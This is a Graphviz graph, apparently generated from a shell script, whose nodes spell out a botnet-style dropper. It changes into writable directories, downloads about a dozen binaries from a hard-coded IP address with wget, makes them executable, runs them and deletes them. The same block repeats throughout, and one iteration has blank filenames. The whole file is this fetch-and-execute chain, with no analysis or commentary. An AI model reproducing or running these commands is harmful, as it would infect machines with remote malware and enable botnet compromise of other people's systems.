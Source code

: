 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://185.165.29.76/jaden "];
10 -> 12 [label=";,"];
12 [label="chmod +x jaden "];
12 -> 14 [label=";,"];
14 [label="./jaden "];
14 -> 16 [label=";,"];
16 [label="rm -rf jaden "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://185.165.29.76/elena "];
28 -> 30 [label=";,"];
30 [label="chmod +x elena "];
30 -> 32 [label=";,"];
32 [label="./elena "];
32 -> 34 [label=";,"];
34 [label="rm -rf elena "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://185.165.29.76/vape "];
46 -> 48 [label=";,"];
48 [label="chmod +x vape "];
48 -> 50 [label=";,"];
50 [label="./vape "];
50 -> 52 [label=";,"];
52 [label="rm -rf vape "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://185.165.29.76/frank "];
64 -> 66 [label=";,"];
66 [label="chmod +x frank "];
66 -> 68 [label=";,"];
68 [label="./frank "];
68 -> 70 [label=";,"];
70 [label="rm -rf frank "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://185.165.29.76/greg "];
82 -> 84 [label=";,"];
84 [label="chmod +x greg "];
84 -> 86 [label=";,"];
86 [label="./greg "];
86 -> 88 [label=";,"];
88 [label="rm -rf greg "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://185.165.29.76/loser "];
100 -> 102 [label=";,"];
102 [label="chmod +x loser "];
102 -> 104 [label=";,"];
104 [label="./loser "];
104 -> 106 [label=";,"];
106 [label="rm -rf loser "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://185.165.29.76/dave "];
118 -> 120 [label=";,"];
120 [label="chmod +x dave "];
120 -> 122 [label=";,"];
122 [label="./dave "];
122 -> 124 [label=";,"];
124 [label="rm -rf dave "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://185.165.29.76/mike "];
136 -> 138 [label=";,"];
138 [label="chmod +x mike "];
138 -> 140 [label=";,"];
140 [label="./mike "];
140 -> 142 [label=";,"];
142 [label="rm -rf mike "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://185.165.29.76/renard "];
154 -> 156 [label=";,"];
156 [label="chmod +x renard "];
156 -> 158 [label=";,"];
158 [label="./renard "];
158 -> 160 [label=";,"];
160 [label="rm -rf renard "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://185.165.29.76/kali "];
172 -> 174 [label=";,"];
174 [label="chmod +x kali "];
174 -> 176 [label=";,"];
176 [label="./kali "];
176 -> 178 [label=";,"];
178 [label="rm -rf kali "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://185.165.29.76/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://185.165.29.76/drake "];
208 -> 210 [label=";,"];
210 [label="chmod +x drake "];
210 -> 212 [label=";,"];
212 [label="./drake "];
212 -> 214 [label=";,"];
214 [label="rm -rf drake "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://185.165.29.76/lance "];
226 -> 228 [label=";,"];
228 [label="chmod +x lance "];
228 -> 230 [label=";,"];
230 [label="./lance "];
230 -> 231 [label=";,"];
}
